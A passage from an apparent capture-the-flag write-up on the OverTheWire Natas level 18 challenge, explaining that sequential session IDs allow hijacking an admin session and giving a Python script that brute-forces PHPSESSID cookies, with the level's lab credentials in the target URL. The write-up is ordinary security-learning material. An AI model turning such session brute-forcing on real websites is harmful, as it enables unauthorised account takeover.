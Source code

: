 {% endhighlight %}

This level is apparently designed to give us the password for the next level if we have a flag &#8220;admin&#8221; equal to 1. The code where &#8220;admin&#8221; is updated has been commented out, so we&#8217;re going to have to go about it another way. Notice at the top of the sourcecode is gives us a limit to the session id, 640. That suggests it&#8217;s incremental, and we can hijack an admin session by guessing the session id.

This is the code I used for the bruteforcing.

{% highlight python %}
#!/usr/bin/python3
# Script to brute force level 18 of natas challenges

# Library to work with the POST requests
import requests

# Good message to search for
gstr = "Password"

# Our target URL
target = 'http://natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP@natas18.natas.labs.overthewire.org/'

# Check if we can connect to the target
r = requests.get(target)
if r.status_code != requests.codes.ok:
  raise ValueError('Couldn\'t connect to target :(')
else:
  print('Target reachable. Starting character parsing...')

# Send request with incrementing session id in a loop until we get admin
session = 0
while(True):
  session += 1
  print("Attempting Session ID: " + str(session))
  headers = {'Cookie': 'PHPSESSID=' + str(session)}
  r = requests.get(target, headers=headers)
  if gstr in r.text:
    print("Password Found!")
    print(r.text)
    break
{% endhighlight %}

&nbsp;
